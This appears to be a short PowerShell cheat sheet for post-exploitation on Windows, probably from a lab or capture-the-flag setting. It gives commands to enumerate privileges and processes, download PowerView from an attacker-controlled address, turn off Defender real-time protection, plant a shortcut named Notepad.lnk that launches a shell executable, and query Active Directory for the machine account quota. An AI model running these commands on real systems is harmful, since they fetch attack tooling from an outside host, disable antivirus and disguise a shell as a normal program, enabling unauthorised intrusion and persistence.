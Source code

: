 Who Am I?
```powershell
# Check Groups
whoami /groups

# Check Privileges
whoami /priv
```

Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1
```

Get Processes
```
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

Disable AV
```powershell
# Disable real-time protection 
Set-MpPreference -DisableRealtimeMonitoring $true
```

List Network Connections
```Powershell
netstat -aon
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```

Active Directory
```
Get-ADDomain

Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```